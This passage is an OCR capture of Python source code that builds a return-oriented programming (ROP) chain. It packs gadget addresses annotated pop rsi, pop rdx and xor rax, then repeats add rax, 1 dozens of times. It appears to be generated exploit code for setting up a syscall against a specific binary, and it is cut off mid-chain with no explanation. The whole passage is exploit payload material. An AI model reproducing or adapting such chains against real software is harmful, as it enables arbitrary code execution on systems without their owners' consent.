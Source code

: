 ```
p += pack('<Q', 0x0000000000409f9e) # pop rsi ; ret
p += pack('<Q', 0x00000000004c50e8) # @ .data + 8
p += pack('<Q', 0x000000000047f2eb) # pop rdx ; pop rbx ; ret
p += pack('<Q', 0x00000000004c50e8) # @ .data + 8
p += pack('<Q', 0x4141414141414141) # padding
p += pack('<Q', 0x000000000043d350) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
```